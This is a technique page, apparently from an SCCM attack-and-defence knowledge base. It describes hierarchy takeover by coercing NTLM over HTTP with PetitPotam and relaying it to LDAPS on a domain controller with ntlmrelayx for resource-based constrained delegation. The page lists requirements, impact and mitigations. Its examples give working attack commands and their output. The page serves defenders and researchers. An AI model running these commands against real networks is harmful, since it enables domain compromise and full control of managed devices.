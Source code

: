 # TAKEOVER-8
## Description
Hierarchy takeover via NTLM coercion and relay HTTP to LDAP on domain controller

## MITRE ATT&CK TTPs
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-8.1: Coerce primary site server 
    - TAKEOVER-8.2: Coerce SMS Provider
    - TAKEOVER-8.3: Coerce passive site server
    - TAKEOVER-8.4: Coerce site database server
- Connectivity from the coercion target to any port on the relay server
- The relay server is in the intranet zone and has a valid NetBIOS name or FQDN (e.g., via ADIDNS poisoning if using a network implant)
- Coercion target settings:
    - The `WebClient` service is installed and started
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
    - Domain computer account is not `is sensitive and cannot be delegated`
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target

### Relay
- Connectivity from the relay server to LDAP or LDAPS on the relay target, the domain controller
- Relay target settings:
    - Either LDAP signing or channel binding is not required on the domain controller
    - `RestrictReceivingNTLMTraffic` = `0` or not present
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target
- For resource-based constrained delegation:
    - Control of an account's SPN

        OR

    - `MachineAccountQuota` > `0` and domain users permitted to add computer accounts

## Summary
An attacker who is able to successfully coerce NTLM authentication from the Active Directory domain computer account for a primary site server, system hosting the SMS Provider role, or passive site server via HTTP and relay it to LDAP on a domain controller can conduct resource-based constrained delegation (RBCD) or shadow credentials attacks to compromise the server, then connect to:
- MSSQL on the site database as the site server or SMS Provider (see [TAKEOVER-1](../TAKEOVER-1/takeover-1_description.md))
- SMB on the site database as the site server (see [TAKEOVER-2](../TAKEOVER-2/takeover-2_description.md))
- SMB on the SMS Provider as the site server (see [TAKEOVER-6](../TAKEOVER-6/takeover-6_description.md))
- SMB on the site database server or an SMS Provider as itself
- SMB on the primary site server as a passive site server, or vice versa (see [TAKEOVER-7](../TAKEOVER-7/takeover-7_description.md))

The attacker can use these permissions to grant an arbitrary domain account the SCCM "Full Administrator" role.

## Impact
The "Full Administrator" security role is granted all permissions in Configuration Manager for all scopes and all collections. An attacker with this privilege can execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on. They can also leverage tools such as CMPivot and Run Script to query or execute scripts on client devices in real-time using the AdminService or WMI on an SMS Provider.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [PREVENT-11: Disable and uninstall WebClient on site servers](../../../defense-techniques/PREVENT/PREVENT-11/prevent-11_description.md)
- [PREVENT-13: Require LDAP channel binding and signing](../../../defense-techniques/PREVENT/PREVENT-13/prevent-13_description.md)
- [PREVENT-16: Remove SeMachineAccountPrivilege and set MachineAccountQuota to 0 for non-admin accounts](../../../defense-techniques/PREVENT/PREVENT-16/prevent-16_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

## Subtechniques
- TAKEOVER-8.1: Coerce primary site server 
- TAKEOVER-8.2: Coerce SMS Provider
- TAKEOVER-8.3: Coerce passive site server
- TAKEOVER-8.4: Coerce site database server

## Examples
The steps to execute TAKEOVER-8.1 through TAKEOVER-8.4 are mostly the same except that a different system is targeted for coercion of NTLM authentication.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the domain controller and the LDAPS service and specifying options to conduct a resource-based constrained delegation attack:
    ```
    # impacket-ntlmrelayx --no-smb-server --no-wcf-server --no-raw-server -ts -ip <NTLMRELAY_LISTENER_IP> -t ldaps://<DOMAIN_CONTROLLER_IP> --http-port 8080 --no-da --delegate-access
    Impacket v0.11.0 - Copyright 2023 Fortra

    [2024-02-28 20:31:35] [*] Protocol Client MSSQL loaded..
    [2024-02-28 20:31:36] [*] Protocol Client LDAPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client LDAP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client RPC loaded..
    [2024-02-28 20:31:36] [*] Protocol Client HTTPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client HTTP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client IMAP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client IMAPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client SMTP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client SMB loaded..
    [2024-02-28 20:31:36] [*] Protocol Client DCSYNC loaded..
    [2024-02-28 20:31:38] [*] Running in relay mode to single host
    [2024-02-28 20:31:38] [*] Setting up HTTP Server on port 8080

    [2024-02-28 20:31:38] [*] Servers started, waiting for connections
    ```

3. From the attacker host, coerce NTLM authentication from the coercion target via HTTP, targeting the relay server's IP address and the specified port:
    ```
    # python3 PetitPotam.py -d MAYYHEM.LOCAL -u lowpriv -p <PASSWORD> <NTLMRELAYX_NETBIOSNAME>@8080/a <COERCION_TARGET_IP>            

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:192.168.57.50[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an HTTP connection on the relay server that is forwarded to the domain controller to execute the RBCD attack:
    ```
    [2024-02-28 21:01:54] [*] HTTPD(8080): Connection from 192.168.57.50 controlled, attacking target ldaps://192.168.57.100
    [2024-02-28 21:01:54] [*] HTTPD(8080): Authenticating against ldaps://192.168.57.100 as MAYYHEM/SITE-SERVER$ SUCCEED
    [2024-02-28 21:01:54] [*] Enumerating relayed user's privileges. This may take a while on large domains
    [2024-02-28 21:01:54] [*] HTTPD(8080): Connection from 192.168.57.50 controlled, but there are no more targets left!
    [2024-02-28 21:01:55] [*] Attempting to create computer in: CN=Computers,DC=MAYYHEM,DC=LOCAL
    [2024-02-28 21:01:55] [*] Adding new computer with username: FCDQZAOC$ and password: OHG^rQ.yl8KcFAC result: OK
    [2024-02-28 21:01:55] [*] Delegation rights modified succesfully!
    [2024-02-28 21:01:55] [*] FCDQZAOC$ can now impersonate users on SITE-SERVER$ via S4U2Proxy
    ```

4. Obtain a service ticket for the created or specified account with an SPN, impersonating the coercion target.

5. Pass the ticket, access the coercion target, escalate to `SYSTEM`, and connect to:
- MSSQL on the site database as a site server or SMS Provider ([TAKEOVER-1](../TAKEOVER-1/takeover-1_description.md))
- AdminService on an SMS Provider as a site server ([TAKEOVER-2](../TAKEOVER-2/takeover-2_description.md))
- SMB on the site database or an SMS Provider as a site server ([TAKEOVER-6](../TAKEOVER-6/takeover-6_description.md))
- SMB on the site database server or an SMS Provider as itself
- SMB on the site server as a passive site server, or vice versa ([TAKEOVER-7](../TAKEOVER-7/takeover-7_description.md))

## References
- Chris Thompson, [Coercing NTLM Authentication from SCCM Servers](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- Elad Shamir, [Wagging the Dog: Abusing Resource-based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
- Garrett Foster, [SCCM Hierarchy Takeover with High Availability](https://posts.specterops.io/sccm-hierarchy-takeover-with-high-availability-7dcbd3696b43)